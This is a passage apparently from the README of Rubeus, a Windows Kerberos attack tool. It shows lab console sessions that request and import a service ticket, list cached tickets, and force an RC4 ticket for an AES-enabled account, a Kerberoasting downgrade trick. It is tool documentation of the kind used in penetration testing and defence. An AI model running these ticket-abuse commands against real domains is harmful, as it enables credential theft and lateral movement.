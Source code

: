     [*] Action: Ask TGS

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building TGS-REQ request for: 'cifs/primary.testlab.local'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1514 bytes
    [*] Received 1562 bytes
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

        doIFzjCCBcqgAwIBBaEDAgEWoo...(snip)...

    [*] Action: Import Ticket
    [+] Ticket successfully imported!


    C:\Rubeus>Rubeus.exe klist

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3


    [*] Action: List Kerberos Tickets (Current User)

        [0] - 0x12 - aes256_cts_hmac_sha1
        Start/End/MaxRenew: 2/10/2019 6:44:43 PM ; 2/10/2019 11:44:09 PM ; 2/17/2019 6:44:09 PM
        Server Name       : cifs/primary.testlab.local @ TESTLAB.LOCAL
        Client Name       : dfm.a @ TESTLAB.LOCAL
        Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

        [1] - 0x12 - aes256_cts_hmac_sha1
        Start/End/MaxRenew: 2/10/2019 6:44:43 PM ; 2/10/2019 11:44:09 PM ; 2/17/2019 6:44:09 PM
        Server Name       : LDAP/primary.testlab.local @ TESTLAB.LOCAL
        Client Name       : dfm.a @ TESTLAB.LOCAL
        Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)


Requesting a service ticket for an AES-enabled service account, specifying that we _only_ support RC4_HMAC:

    C:\Rubeus>Rubeus.exe asktgs /ticket:doIFmjCCBZagAwIBBaEDAgEWoo...(snip).../service:roast/me /enctype:rc4

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

